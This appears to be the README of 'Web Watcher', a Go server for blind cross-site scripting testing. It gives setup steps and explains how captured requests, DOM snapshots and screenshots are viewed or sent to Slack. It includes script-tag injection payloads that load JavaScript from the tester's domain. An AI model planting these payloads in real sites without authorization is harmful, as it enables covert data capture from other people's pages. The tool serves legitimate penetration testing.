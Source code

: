# Web Watcher  
Golang server for testing blind XSS.   
Special endpoint for testing requests and file extensions.  

## Setup  
1. Install  
```
git clone https://github.com/pichik/webwatcher
```
2. Build application
```
sudo go build -o /usr/local/bin/webwatcher main.go
```
3. Set permissions for ports 
```
sudo setcap CAP_NET_BIND_SERVICE+ep ~/go/bin/webwatcher
``` 
3. Fill `.wwconfig` and add it to your home directory.  
4. Move web directory to a place specified in config.  
5. Remove the rest.

All files in `assets/` are publicly accessible.  
If you are running https, directory with certificates should be generated.  
## Usage
Login to your website with /login?token=[token]  

After authentication, you can find all requests in `/results/all`.  
Left side is from  XSS requests.  
Right side is from custom path requests.  
![results](screenshots/results.png)  


### Collecting simple request data from path you specified in config  
This endpoint will contain response specified in `assets/extensions.json` file  

**Example:**  
Set `"CollectorPath":"examplepath"` in `.wwconfig`  
Set `.js` extension with payload `alert(1)` in `assets/extensions.json`  
Insert this payload to the website, alert will popup.  
`<script src=https://domain.com/examplepath.js></script>`  

### Collecting data from blind XSS  
You can find detailed report for your XSS, with DOM and Screenshort.  
These request will be sent to slack, if specified in config.
`<script src=https://domain.com></script>`  
![blind xss](screenshots/blindxss.png)  



